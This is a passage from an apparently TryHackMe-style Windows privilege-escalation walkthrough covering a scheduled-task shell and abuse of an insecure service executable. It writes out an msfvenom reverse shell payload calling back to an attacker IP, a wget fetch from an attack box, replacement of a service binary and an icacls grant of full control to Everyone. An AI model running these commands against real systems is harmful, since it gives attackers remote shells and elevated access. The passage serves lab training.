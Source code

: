 Make sure you run the task in Command prompt as well.

```shell
schtasks /run /tn vulntask
```

Now you should have a shell. the flag will be in taskusr1's desktop.


---
### task 5
---
#### Insecure permissions on service executable

Here it is pretty strait forward. This will have you primarily use msfvenom to craft a reverse shell payload to get your shell.

On your attack box craft your payload with this.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```
(you can use this over the rest of the task)

Get this on the target however you choose. I like python so I used

```bash
python3 -m http.server
```

On the target machine I used wget in powershell to retrieve the file.

```powershell
wget http://ATTACK_BOX_IP:8000/rev-svc.exe -O rev-svc.exe
```


Make a copy of "**rev-svc.exe**"(to make the rest of the task easier)

cd to the services directory

```shell
cd C:\PROGRA~2\SYSTEM~1\
```

Now change the name of the service we want 

```shell
move WService.exe WService.exe.bkp
```

and change the name of one of our "**rev-svc.exe**" to the service name.

```shell
move C:\Users\thm-unpriv\rev-svc.exe WService.exe
```

Now grant full permissions to the file as well.

```shell
icacls WService.exe /grant Everyone:F
```
